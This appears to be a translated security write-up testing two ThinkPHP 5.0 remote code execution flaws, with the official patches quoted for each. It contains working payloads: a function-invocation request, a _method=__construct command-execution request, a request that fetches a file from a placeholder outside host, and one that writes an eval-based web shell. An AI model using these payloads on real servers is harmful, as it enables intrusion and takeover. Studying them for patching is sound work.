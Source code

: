 # ThinkPHP5.0 Vulnerability Testing

> Since ThinkPHP released the vulnerability patch, the server has been scanned countless times for vulnerabilities to capture zombies.
> Even though the official patch has been released, I still want to test the TP vulnerability and test two vulnerabilities.

## 1. Vulnerability for Execution in All Versions

```xml
<!-- GET -->
http://127.0.0.1/ThinkPHP/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```
Due to the lack of explicit detection of the controller name and in the absence of enabling forced routing, phpinfo() can be executed directly. If the server does not restrict the execution of functions such as shell, shell escalation can be executed directly.

![](screenshots/2023-04-14-20-50-36.jpg)

For a detailed process of the vulnerability execution, refer to [Vulnerability Execution Process](https://www.cnblogs.com/st404/p/10245844.html)

##### Official Patch
Add regular expressions to limit the controller name
```php
/* /thinkphp/library/think/App.php line 555 add */
if (!preg_match('/^[A-Za-z](\w)*$/', $controller)) {
     throw new HttpException(404, 'controller not exists:' . $controller);
}
```

## 2. _method Vulnerability

```xml
<!-- POST -->
http://127.0.0.1/ThinkPHP/index.php?s=captcha
<!-- Headers -->
Content-Type:application/x-www-form-urlencoded
<!-- Body -->
_method=__construct&filter[]=system&method=GET&get[]=dir
```
_Trigger condition_

```php
//Config.php
'var_method'             => '_method'
```

Use the `$_POST['_method']` variable to pass the actual request method. When `$_POST['_method']=__construct`, the method of the Request class will override the class variables using the filter variable and execute any command when internal parameter filtering is performed.

![](screenshots/2023-04-14-20-50-45.jpg)

This can directly upload a PHP file test.php
```xml
<!-- POST -->
http://127.0.0.1/ThinkPHP/index.php?s=captcha&fileDown=copy("http://xxx/1.txt","test.php")
<!-- Headers -->
Content-Type:application/x-www-form-urlencoded
<!-- Body -->
_method=__construct&filter=assert&method=get&server[REQUEST_METHOD]=fileDown
```
Generate a web shell
```xml
<!-- POST -->
http://127.0.0.1/ThinkPHP/index.php?s=captcha&T=echo+^<?php+phpinfo();eval($_POST[cmd]);?^>+>>info.php
<!-- Headers -->
Content-Type:application/x-www-form-urlencoded
<!-- Body -->
_method=__construct&filter=system&method=get&server[REQUEST_METHOD]=123
```

In config.php, the _method can be set as the other characters, or upgrade TP

##### Official Patch
The official patch limits the suspicious request methods set by _method and unsets it after processing _method, preventing the further use of __construct for variable overrides

```php
/* thinkphp/library/think/Request.php */
public function method($method = false)
{
    if (true === $method) {
        // Get the original request type
        return IS_CLI ? 'GET' : (isset($this->server['REQUEST_METHOD']) ? $this->server['REQUEST_METHOD'] : $_SERVER['REQUEST_METHOD']);
    } elseif (!$this->method) {
        if (isset($_POST[Config::get('var_method')])) {
            $method = strtoupper($_POST[Config::get('var_method')]);
            if (in_array($method, ['GET', 'POST', 'DELETE', 'PUT', 'PATCH'])) {
                $this->method = $method;
                $this->{$this->method}($_POST);
            } else {
                $this->method = 'POST';
            }
            unset($_POST[Config::get('var_method')]); //unset
        } elseif (isset($_SERVER['HTTP_X_HTTP_METHOD_OVERRIDE'])) {
            $this->method = strtoupper($_SERVER['HTTP_X_HTTP_METHOD_OVERRIDE']);
        } else {
            $this->method = IS_CLI ? 'GET' : (isset($this->server['REQUEST_METHOD']) ? $this->server['REQUEST_METHOD'] : $_SERVER['REQUEST_METHOD']);
        }
    }
    return $this->method;
}
```

> References:
> https://www.cnblogs.com/st404/p/10245844.html
> https://mrxn.net/Infiltration/618.html
> https://www.cnblogs.com/nul1/p/11863574.html
> https://www.vulnbug.com/amp/thkphp5x-code-execution-vulnerabilities-and-bypass.html
> https://www.freebuf.com/vuls/194127.html